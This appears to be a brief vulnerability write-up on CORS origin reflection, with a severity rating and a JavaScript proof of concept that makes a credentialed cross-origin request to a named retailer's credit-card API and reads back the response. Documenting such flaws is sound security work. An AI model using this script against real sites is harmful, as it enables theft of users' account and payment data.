 # Origin reflection

## Description

Short: Host allows any origin to make requests to it.

Detailed: Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-null-origin)
